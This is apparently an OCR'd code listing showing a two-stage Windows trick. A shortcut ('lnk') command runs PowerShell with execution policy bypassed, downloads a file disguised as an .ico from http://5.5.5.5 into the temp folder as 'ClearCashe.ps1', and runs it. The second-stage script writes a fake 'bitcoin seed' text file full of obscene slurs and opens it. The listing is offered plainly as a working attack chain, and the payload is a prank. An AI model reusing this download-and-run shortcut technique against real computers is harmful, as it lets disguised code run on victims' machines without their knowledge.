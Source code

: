 # lnk 1

%WinDir%\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -NoExit -Command "& { iwr -Uri 'http://5.5.5.5/x/2.ico' -OutFile $env:TEMP\ClearCashe.ps1; & $env:TEMP\ClearCashe.ps1 }"


# ico 

$filePath = Join-Path $env:TEMP "my_seed.txt"

$content = "bitcoin seed: anus penis vagina gay shit fuck slut dick cock asshole suck"

$content | Out-File -FilePath $filePath -Encoding UTF8

Write-Host "Файл создан: $filePath"

Start-Process -FilePath $filePath

Pause
